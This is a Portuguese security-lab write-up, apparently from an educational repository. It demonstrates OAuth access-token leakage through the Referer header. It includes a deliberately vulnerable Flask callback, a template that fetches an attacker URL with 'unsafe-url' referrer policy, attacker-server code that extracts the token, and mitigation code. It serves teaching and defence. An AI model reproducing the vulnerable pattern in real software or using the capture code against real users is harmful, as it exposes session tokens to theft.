



# A-06 — Token Leakage via Referrer Header

## Descrição

Quando um access token OAuth 2.0 / OIDC é colocado como query parameter na URL
(ex: `/dashboard?token=eyJ...`), o browser inclui automaticamente essa URL completa
no header `Referer` quando carrega recursos externos (imagens, scripts, tracking pixels).

Um atacante que controle um servidor externo referenciado pela página recebe o token
sem qualquer interação da vítima.

---

## Pré-requisitos

- SP1 a correr em `http://localhost:5001`
- Attacker Server a correr em `http://localhost:9999`
- `VULN_A06_REFERRER_LEAK = True` em `sp1/config.py`

---

## Fluxo do Ataque



---

## Análise do Código

### 1. Flag de controlo — `sp1/config.py`

```python
# True  = sistema VULNERÁVEL
# False = mitigação ATIVA
VULN_A06_REFERRER_LEAK = True
```

Esta flag é importada com `from config import *` e consultada em dois pontos:
no callback OIDC (onde decide se o token vai para a URL) e no template HTML
(onde decide se o recurso externo é carregado).

---

### 2. Fluxo de decisão no `/callback`



---

### 3. Código do `/callback` — `sp1/app.py`

```python
@app.route("/callback")
def callback():
    token     = oauth.keycloak.authorize_access_token()   # troca code → tokens
    user_info = token.get("userinfo")

    session["user"]         = user_info
    session["access_token"] = token.get("access_token")

    # ---- A-06: Token in URL ----
    if VULN_A06_REFERRER_LEAK:
        # VULNERÁVEL: access_token exposto como query parameter
        # Qualquer recurso externo na página receberá o token via Referer
        access_token = token.get("access_token")
        return redirect(url_for("dashboard", token=access_token))
        #               gera: /dashboard?token=eyJhbGci...

    # MITIGADO: redireciona para / sem token na URL
    # O token permanece apenas em session["access_token"] — no servidor
    return redirect(url_for("index"))
```

---

### 4. Fluxo de decisão no template



---

### 5. Template `home.html` — a segunda metade da vulnerabilidade

```html


  <!--
    VULNERÁVEL: referrerpolicy="unsafe-url" força o browser a incluir
    a URL completa (com o token) no Referer, mesmo em pedidos cross-origin.

    Sem este atributo, o browser aplica strict-origin-when-cross-origin
    por defeito e enviaria apenas "http://localhost:5001/" — sem o token.
  -->
  

  <script>
    fetch("{{ attacker_url }}/log?source=sp1", {
      referrerPolicy: "unsafe-url",
      mode: "no-cors"
    });
  </script>


```

---

### 6. Servidor do atacante — extracção do token do Referer

```python
@app.route("/pixel.gif")
def pixel():
    referer = request.headers.get("Referer", "")
    # Recebe: "http://localhost:5001/dashboard?token=eyJhbGci..."

    token = ""
    if "token=" in referer:
        token = referer.split("token=")[1].split("&")[0]
        # token = "eyJhbGci..."  ← token completo extraído

    log_event("A-06: Token via Referer", "pixel.gif",
              f"Referer: {referer}\n  TOKEN CAPTURADO: {token[:80]}...",
              token=token)
```

---

## Passos da Demonstração

### 1. Verificar configuração vulnerável

```python
# sp1/config.py
VULN_A06_REFERRER_LEAK = True
```

### 2. Abrir o Attacker Dashboard

Abre `http://localhost:9999/` — deixa a aba aberta.

### 3. Fazer login no Portal A

Acede a `http://localhost:5001` e faz login com `alice` / `alice123`.

### 4. Observar o token capturado

O dashboard mostra o evento A-06 com o token completo.
Usa o botão **📋 Copiar Token** e corre:

```bash
python attacks/a06_use_token.py "eyJhbGci..."
```

---

## Mitigação — Análise do Código

```python
# sp1/config.py
VULN_A06_REFERRER_LEAK = False
```

**Efeito 1 — o token não vai para a URL:**

```python
if VULN_A06_REFERRER_LEAK:
    return redirect(url_for("dashboard", token=access_token))
    # ↑ NÃO executado

return redirect(url_for("index"))
# ↑ redireciona para / — token fica apenas em session["access_token"]
```

**Efeito 2 — o template não carrega o recurso externo:**

```html

  <!-- ↑ vuln_a06=False → bloco ignorado → pixel.gif nunca carregado -->

```

**Efeito 3 — header `Referrer-Policy` adicionado:**

```python
@app.after_request
def set_security_headers(response):
    if not VULN_A06_REFERRER_LEAK:
        response.headers["Referrer-Policy"] = "no-referrer"
    return response
```

Com `no-referrer`, mesmo que um recurso externo seja carregado,
o browser envia o header `Referer` vazio — o token nunca chega ao atacante.

---

## Referências

- [OWASP — Token Leakage](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery)
- [RFC 7636 — PKCE](https://datatracker.ietf.org/doc/html/rfc7636)
- [OAuth 2.0 Security BCP — Section 4.2.4](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics#section-4.2.4)
- [MDN — Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy)
